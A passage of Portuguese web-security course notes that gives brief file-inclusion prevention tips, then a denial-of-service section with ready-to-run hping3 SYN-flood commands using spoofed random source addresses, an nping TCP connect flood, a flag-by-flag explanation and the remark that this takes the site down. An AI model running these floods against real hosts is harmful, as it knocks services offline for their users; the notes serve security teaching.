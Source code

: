 - Prevenção: ter o controle de permissões dos diretorios e arquvios que podem ser acessados pelos usuários.
- Prevenção: evitar a inclusão de arquivos como entrada fornecida pelo usuário.

## DoS

- Denial of Service
- Testar com a ferramenta hping. Esta ferramenta pode ser usada para:
  - Traceroute/ping hosts atrás de um firewall que bloqueia tentativas usando os utilitários padrão.
  - Ataque de negação de serviço - DoS usando hping3 com IP falsificado no Kali Linux
  - Execute a verificação inativa (agora implementada no nmap com uma interface de usuário fácil).
  - Teste as regras de firewall.
  - IDS de teste.
  - Explorar vulnerabilidades conhecidas de pilhas TCP / IP.
  - Pesquisa em rede.
  - Escreva aplicativos reais relacionados ao teste e segurança de TCP / IP.
  - Testes automatizados de firewall.
  - Pesquisa em rede e segurança quando houver necessidade de emular um comportamento complexo de TCP / IP.
- Para testar, basta uma linha de comando. Citada abaixo:

  ```bash
  hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source <url>
  ```

  explicação do comando:
  - -c 10000: numero de pacotes a serem enviados
  - -d 120: tamanho de cada pacote enviado
  - -S: envio apenas de pacotes SYN
  - -w 64: Tamanho da janela TCP -​ A opção de escala de janela TCP é uma opção para aumentar o tamanho da janela de recebimento permitido no Protocolo de Controle de Transmissão acima do seu antigo valor máximo de 65.535 bytes. Esta opção TCP, juntamente com várias outras, é definida na IETF RFC 1323, que trata de redes longas e complexas.
  - -p 21: Porta de destino (A porta 21 é utilizada pelo FTP). Pode ser usada qualquer porta.
  - --flood: para enviarmos os pacotes o mais rápido possível
  - --rand-source: Usando ips aleatórios para envio dos pacotes
- Desta forma derrubaremos o site.

- Testar outras formas de DoS com hping, a primeira, um simples SYN flood:

  ```bash
  hping3 -S -P -U --flood -V --rand-source <url>Curso: ​Segurança em Aplicações WEB
  ```

- TCP connect flood

  ```bash
  nping --tcp-connect -rate=90000 -c 900000 -q
  ```

- Prevenção: Para evitar este problema, é preciso uma aplicação que proteja o servidor, ou mesmo, manter o kernel atualizado. Pois, esta vulnerabilidade é fácilmente evitada.

## Brute Force
